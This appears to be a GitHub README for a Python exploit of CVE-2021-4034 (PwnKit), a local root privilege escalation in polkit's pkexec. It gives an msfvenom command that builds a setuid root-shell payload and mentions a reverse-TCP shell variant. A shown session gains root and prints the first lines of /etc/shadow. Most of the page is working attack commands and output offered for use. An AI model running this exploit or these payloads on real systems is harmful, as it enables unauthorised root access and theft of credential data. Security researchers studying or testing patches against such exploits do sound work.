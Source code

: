 Python3 code to exploit
[CVE-2021-4034](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
[(PWNKIT)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt).
This was an exercise in "can I make this work in Python?", and not meant
as a robust exploit. It Works For Me, there are problaby bugs.

The default payload starts a shell as `root`, generated from `msfvenom`:

```
msfvenom -p linux/x64/exec -f elf-so PrependSetuid=true | base64
```

I've tested `linux/x64/shell_reverse_tcp` as well. Make sure you include
the `PrependSetuid=true` argument to `msfvenom`, otherwise you'll just get
a shell as the user and not root.

The code is cribbed from [blasty](https://twitter.com/bl4sty), the orginal is
available [here](https://haxx.in/files/blasty-vs-pkexec.c)

``` shell-session
$ python CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=1000(jra) groups=1000(jra),4(adm),27(sudo),119(lpadmin),998(lxd)
# whoami
root
# head /etc/shadow
root:*:18709:0:99999:7:::
daemon:*:18709:0:99999:7:::
bin:*:18709:0:99999:7:::
sys:*:18709:0:99999:7:::
sync:*:18709:0:99999:7:::
games:*:18709:0:99999:7:::
man:*:18709:0:99999:7:::
lp:*:18709:0:99999:7:::
mail:*:18709:0:99999:7:::
news:*:18709:0:99999:7:::
#
```

